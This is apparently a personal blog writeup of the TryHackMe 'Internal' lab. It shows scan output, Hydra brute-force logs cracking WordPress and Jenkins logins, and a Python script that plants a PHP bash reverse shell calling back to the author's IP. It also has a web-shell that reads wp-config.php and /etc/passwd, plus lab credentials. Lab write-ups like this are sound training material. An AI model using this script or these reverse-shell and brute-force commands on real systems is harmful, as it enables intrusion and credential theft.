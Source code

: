 ```yaml
---
layout: post
title:  "Tryhackme Internal writeup"
date:   2022-12-07 10:02:59 +0100
categories: jekyll update
---
```

### Reconaissance
I started with regular scans.
```
...
22/tcp open  ssh
80/tcp open  http
...
```


Nikto gave me

```
...
+ Uncommon header 'link' found, with contents: <http://internal.thm/blog/index.php/wp-json/>; rel="https://api.w.org/"
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
...
```

Checking some banners gave me:

```
Apache/2.4.29
OpenSSH_7.6p1
phpMyAdmin 4.6.6
Wordpress 5.4.2
```

Looked at some CVEs but nothing screamed out at me.

# Wordpress


Doing wordpress I could probably guess the admin user was named admin. Also
The apache had a weird header that linked to the wp-json API. This was news to me but fortunate.
Not sure if that's a 
I found this endpoint:

/wp/v2/users

Seems like old news:
https://hackerone.com/reports/356047


```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-06 15:08:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://internal.thm:80/blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:login_error
[STATUS] 1304.00 tries/min, 1304 tries in 00:01h, 14343094 to do in 183:20h, 16 active
[STATUS] 1269.67 tries/min, 3809 tries in 00:03h, 14340589 to do in 188:15h, 16 active
[80][http-post-form] host: internal.thm   login: admin   password: my2boys
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-06 15:11:32
```


So we get in.
![](/assets/wordpress.png)

This led me hunting around for a bit but the login credentials doesn't work anywhere yet it seems.

I tried plugin editor and uploading php files but finally I found the theme editor.
I could add my backdoor into index.php for the theme.

I tried making this automatic but windows defender eats my WSL.

{% highlight python %}
import requests
import re
import os

MYIP = "10.14.39.17"
MYPORT = 4242
find_nonce = re.compile(r'<input type="hidden" id="nonce" name="nonce" value="([^"]*)" />')
payload = lambda nonce: {"nonce": nonce,
"_wp_http_referer": "/blog/wp-admin/theme-editor.php?file=index.php&theme=twentyseventeen",
"newcontent":
f"""
<?php get_header(); ?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{MYIP}/{MYPORT} 0>&1'");?>
HACKED
<?php
get_footer();""",
"action": "edit-theme-plugin-file",
"file": "index.php",
"theme": "twentyseventeen",
"docs-list": ""}

print("* Logging in")
login = requests.post("http://internal.thm/blog/wp-login.php", {
        "log": "admin",
        "pwd": "my2boys",
        "wp-submit": "Log In",
        "redirect_to": "http://internal.thm/blog/wp-admin/",
        "testcookie": 1
    })

print(login)

print("* Fetching theme-editor nonce")
theme_editor = requests.get("http://internal.thm/blog/wp-admin/theme-editor.php?file=index.php&theme=twentyseventeen", cookies=login.cookies)
nonce = find_nonce.search(theme_editor.text)[1]
print("* Poof")
theme_editor = requests.post("http://internal.thm/blog/wp-admin/admin-ajax.php", payload(nonce),cookies=login.cookies)
print("* Fetching homepage")
os.system("curl -s http://internal.thm/blog/ >/dev/null &")
print("Starting server")
print("* You probably want to do this: python3 -c \"import pty;pty.spawn('/bin/bash')\"")
os.system(f"nc -l -vv -p {MYPORT}")
{% endhighlight %}
internal.thm/blog/?cmd=cat%20wp-config.php
```
...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );
...
```

I worked the phpmyadmin a bit but it got nowhere.
mysql  Ver 14.14 Distrib 5.7.31, for Linux (x86_64) using  EditLine wrapper
```
internal.thm/blog/?cmd=cat%20/etc/passwd
...
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
...
```


http://internal.thm/blog/?cmd=netstat%20-anp%20--inet
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:45279         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.208.218:68        0.0.0.0:*                           -       
```

```
root      1478  0.0  0.1 404800  3452 ?        Sl   19:28   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8080 -container-ip 172.17.0.2 -container-port 8080
root      1494  0.0  0.2   9364  4888 ?        Sl   19:28   0:00 containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v1.linux/moby/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2 -address /run/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc
aubrean+  1522  0.0  0.0   1148     4 ?        Ss   19:28   0:00 /sbin/tini -- /usr/local/bin/jenkins.sh
aubrean+  1554  0.6 11.5 2587808 235868 ?      Sl   19:28   0:27 java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -jar /usr/share/jenkins/jenkins.war
```


```
kastberg@5CD9245KLN:/mnt/c/Users/robin.kastberg/hax$ hydra -L users.txt -P rockyou.txt -s 8001  internal.thm http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-06 22:59:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 43033194 login tries (l:3/p:14344398), ~2689575 tries per task
[DATA] attacking http-post-form://internal.thm:8001/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid
[STATUS] 402.00 tries/min, 402 tries in 00:01h, 43032792 to do in 1784:07h, 16 active
[8001][http-post-form] host: internal.thm   login: admin   password: spongebob
```

This made it possible to log into the jenkins web-interface. There was a part where I could run arbitrary scripts there.
Running ```find /``` I found a file containing the root password.

In ```/home/aubreanna``` I then found a file jenkins.txt and the flag user.txt.
Hmm. I should probably have been able to get into her account somehow.

Let me backtrace a bit.

/etc/phpmyadmin/config.inc.php
```
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='B2Ud4fEOZmVq';
```
